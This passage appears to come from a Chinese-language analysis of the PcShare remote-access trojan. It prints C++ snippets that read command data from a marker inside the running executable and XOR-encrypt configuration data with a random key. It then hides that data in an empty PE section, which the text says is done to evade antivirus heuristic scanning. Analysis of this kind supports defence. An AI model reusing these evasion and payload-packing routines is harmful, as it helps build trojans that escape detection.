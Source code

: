 ```

    //修改标志
    //This
    char m_TempStr[256] = {0};
    m_TempStr[0] = 'T';
    m_TempStr[1] = 'h';
    m_TempStr[2] = 'i';
    m_TempStr[3] = 's';
    m_TempStr[4] = 0x00;

    //修改EXE数据标志
    BYTE* pData = (BYTE*) GetModuleHandle(NULL);
    BYTE* pCmd = NULL;
    for(DWORD i = 0; i < nFileLen; i++)
    {
        if(memcmp(&pData[i], m_TempStr, 4) == 0)
        {
            pCmd = (BYTE*) &pData[i + 4];
            break;
        }
    }
    return pCmd;
}

```

验证：

![enter image description here](http://drops.javaweb.org/uploads/images/25da3ee494c42080a431b43ac155d7c8981fcbd9.jpg)

3 运行成功后加密配置数据修改DLL 文件，生成一段随机作为Key。数据和Key异或加密存储，放在PE空区段里面。Pcshare多次利用空区段存放数据，用的时候在找标记“PS_VER_ULONGLONG”找大小在读取出来，避免“资源文件存文件”、“附加数据存文件”等传统捆绑打包和携带配置文件的方式，被杀毒启发式扫描检测出来。

```
//取随机数据
    srand((unsigned) time(NULL));
    for(i = 0; i < nInfoDataLen; i++)
    {
        pKeyData[i] = rand();
    }

    //加密数据
    for(i = 0; i < nInfoDataLen; i++)
    {
        pTmpData[i] = pTmpData[i] ^ pKeyData[i];
    }
    AddDataToPe(pSaveData, nInfoDataLen * 2 + nStrSize, pDllFileData, nSrcDllDataLen, m_DllFilePath);

```

AddDataToPe代码片段：
